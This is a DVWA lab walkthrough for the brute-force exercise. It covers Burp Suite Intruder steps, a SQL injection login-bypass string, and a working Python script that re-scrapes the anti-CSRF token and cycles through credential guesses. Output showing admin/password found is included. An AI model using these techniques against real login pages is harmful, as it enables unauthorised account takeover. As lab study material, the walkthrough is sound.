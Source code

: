 # DVWA - Brute Force Solution

## Low level
### Solution - Brup suite
> Use the proxy to interrupt the package.
> 
> ![](https://i.imgur.com/TPzebgj.png)

> Then send the package to the intruder. After that we can set the parameter. We need to set the account and the password to attack. And set the adttack type to cluster bomb. Than we need to set the payload. Add some easily to attack account and password to the set. After that we can start to attack.
>
> ![](https://i.imgur.com/xA5lypI.png)

> When finish attack we can to observe the length. We can see there has a different length. Then we can manual to use the account and password to try to login.
> 
> ![](https://i.imgur.com/7FZbHzS.png)

> We can use the admin/password to login.
> 
> ![](https://i.imgur.com/46S4ouw.png)

### Solution - SQL injection
> If we know the account. But we don't have the password. We can use the sql injection to pass.
> In this case, we can use the account: admin' or '1' = '1 and password: to paas.
> ![](https://i.imgur.com/XPaA4GI.png)


## Medium level 
> Because the source adds the `mysql_real_escape_string` so it can recognize the special sign.
> In this case, we only can use the Burpsuite to do Brute Force.


## High level 
### Solution - Brup suite
> In this case, the page add the token to verify. So, we can use the brupsuite to Brute Force the account and password.
> First also use proxy to interrupt the package, and send it to intruder.
> And set the passwoed and user_token to the parameter.
> 
> ![](https://i.imgur.com/Dzw6QT8.png)

> Go intruder -> option -> Grep-Extract, choose the value of user_token. 
> 
> ![](https://i.imgur.com/FiwR6cU.png)

> And set the payload of user_token choose the Payload Type to Recursive grep. Remember to copy the initial user_token. After that, you can start to attack.
> 
> ![](https://i.imgur.com/IrdPL3W.png)

> At the end, you can see the result.
> 
> ![](https://i.imgur.com/VvgVXzA.png)

### Solution - python code
> Use the code to get the user_token and test the account and password.
> 
```python=1
import requests
from bs4 import BeautifulSoup

#dict
payloads = [
    'administrator',
    'admin',
    'password',
    'passwd',
    '123456',
    '123'
]

url = """http://192.168.1.66/DVWA-master/vulnerabilities/brute/?username={0}&password={1}&Login=Login&user_token={2}"""

cookies = {
    'security':'high',
    'PHPSESSID':'mfnrbgq0q5qepj43egak4amjjl'
}

headers = {
    'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
}

def attack(payloads,url):
    #get user_token
    source = 'http://192.168.1.66/DVWA-master/vulnerabilities/brute/index.php#'
    web_data = requests.get(source, headers = headers, cookies = cookies)
    soup = BeautifulSoup(web_data.text, 'lxml')
    user_token = soup.select('input[name="user_token"]')[0]['value']

    for payload1 in payloads:
        for payload2 in payloads:
            target = url.format(payload1, payload2, user_token)
            print('target url: ' + target)
            web_data = requests.get(target,headers = headers, cookies = cookies)
            soup = BeautifulSoup(web_data.text,'lxml')
            user_token = soup.select('input[name="user_token"]')[0]['value']
            feature = soup.find('pre')
            try:
                if feature.get_text() == 'Username and/or password incorrect.':
                    print('error')
            except:
                print('result:')
                print('username:' + payload1+'\n' + 'password:' + payload2)
                exit('end')

attack(payloads,url)
```
> The result you will get.
> 

```bash=
target url: http://192.168.1.66/DVWA-master/vulnerabilities/brute/?username=admin&password=admin&Login=Login&user_token=bf6a4968f65876096a8217991f9ac414
error
target url: http://192.168.1.66/DVWA-master/vulnerabilities/brute/?username=admin&password=password&Login=Login&user_token=013c6315db7a2ef6eb65ca22abeea491
result:
username:admin
password:password
end

```

## Impossibel level
### Some error
> The timezone of MySQL is UTC-6. However, the timezone in PHP is UTC+1. So, we need to edit the sorce code at  35 line to correct the time. Or if we try login over the time we set, the account will not be locked.
> As the following code we can see the 35 line I add the 7 hours to correct the time.
> 

```php=30
  if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  {
		// User locked out.  Note, using this method would allow for user enumeration!
		//$html .= "<pre><br />This account has been locked due to too many incorrect logins.</pre>";

		// Calculate when the user would be allowed to login again
		$last_login = strtotime( $row[ 'last_login' ] ) + (7*60*60);
		$timeout    = $last_login + ($lockout_time * 60);
		$timenow    = time();

		/*
		print "The last login was: " . date ("h:i:s", $last_login) . "<br />";
		print "The timenow is: " . date ("h:i:s", $timenow) . "<br />";
		print "The timeout is: " . date ("h:i:s", $timeout) . "<br />";
		*/

		// Check to see if enough time has passed, if it hasn't locked the account
		if( $timenow < $timeout ) {
			$account_locked = true;
			// print "The account is locked<br />";
		}
	}
```

### Solution
> Because the login will lock the account when we try too many times, maybe we can try to brup force on account.

